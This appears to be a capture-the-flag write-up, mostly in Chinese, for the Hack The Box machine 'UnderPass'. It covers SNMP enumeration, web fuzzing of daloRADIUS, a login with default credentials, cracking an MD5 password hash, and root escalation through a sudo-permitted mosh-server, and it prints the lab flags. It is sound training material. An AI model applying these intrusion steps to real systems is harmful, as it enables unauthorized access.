




###### tags: `Hack the box` `HTB` `Easy` `Linux`

# UnderPass
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.102.68 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.102.68:80
Open 10.129.102.68:22

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
|   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

感覺沒有什麼，嘗試`UDP scan`，有`snmp`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nmap -sU 10.129.102.68                                       
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 02:43 EST
Nmap scan report for 10.129.102.68
Host is up (0.20s latency).
Not shown: 959 closed udp ports (port-unreach), 40 open|filtered udp ports (no-response)
PORT    STATE SERVICE
161/udp open  snmp
```

利用`snmp-check`掃看看
```
┌──(kali㉿kali)-[~/htb]
└─$ snmp-check 10.129.102.68
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.129.102.68:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.129.102.68
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 00:40:04.01
  Uptime system                 : 00:39:44.89
  System date                   : 2025-1-24 08:12:47.0
```

把domain加進來
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.102.68   UnDerPass.htb
```

搜尋一下`daloradius server`感覺漏洞路徑都有`daloradius`，加進來且掃一下路徑
```
┌──(kali㉿kali)-[~/htb]
└─$ feroxbuster -u http://UnDerPass.htb/daloradius -q -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt

Scanning: http://UnDerPass.htb/daloradius/
Scanning: http://underpass.htb/daloradius/
Scanning: http://underpass.htb/daloradius/library/
Scanning: http://underpass.htb/daloradius/doc/
Scanning: http://underpass.htb/daloradius/app/
Scanning: http://underpass.htb/daloradius/doc/install/
Scanning: http://underpass.htb/daloradius/contrib/
Scanning: http://underpass.htb/daloradius/setup/
Scanning: http://underpass.htb/daloradius/app/common/
Scanning: http://underpass.htb/daloradius/app/users/
Scanning: http://underpass.htb/daloradius/contrib/scripts/
Scanning: http://underpass.htb/daloradius/contrib/db/

...
```

掃太久了嘗試`app`路徑，進去`http://10.129.102.68/daloradius/app/users/login.php`用`default credential`不能登入
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://underpass.htb/daloradius/app/FUZZ -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --recursion

users                   [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 200ms]
[INFO] Adding a new job to the queue: http://underpass.htb/daloradius/app/users/FUZZ

common                  [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 197ms]
[INFO] Adding a new job to the queue: http://underpass.htb/daloradius/app/common/FUZZ

operators               [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 196ms]
[INFO] Adding a new job to the queue: http://underpass.htb/daloradius/app/operators/FUZZ
```



```
default credential: administrator/radius
```

再來去`http://10.129.102.68/daloradius/app/operators/`有一個登入畫面可以利用`default credential`成功登入



點擊`Go to users list`



利用[crackstation](https://crackstation.net/)破

| Hash	                           | Type |	Result            |
|----------------------------------|------|-------------------| 
| 412DD4759978ACFCC81DEAB01B382403 | md5  | underwaterfriends |

得到帳號密碼之後用ssh登入，可在`/home/svcMosh`得`user.txt`
```
┌──(kali㉿kali)-[~/htb]
└─$ ssh svcMosh@10.129.102.68 
The authenticity of host '10.129.102.68 (10.129.102.68)' can't be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.102.68' (ED25519) to the list of known hosts.
svcMosh@10.129.102.68's password: underwaterfriends

svcMosh@underpass:~$ cat user.txt
d87ce2332dbfb75ef2136d8d025f69c0
```

查看`sudo -l`，可以看到可以不用密碼用root執行`/usr/bin/mosh-server`，搜尋`mosh server`可以找到[mosh shell](https://mosh.org/)



參考usage做一個shell，可得root後，在`/root`得`root.txt`
```
svcMosh@underpass:/tmp$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server

svcMosh@underpass:/tmp$ sudo /usr/bin/mosh-server new


MOSH CONNECT 60001 PzlNeFN8AD9srIC62pS6Rw

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2870]

svcMosh@underpass:/tmp$ mosh --server="sudo /usr/bin/mosh-server" localhost

root@underpass:~# cat root.txt
23b406a8f9912c8ae2b74c7349eb2522
```
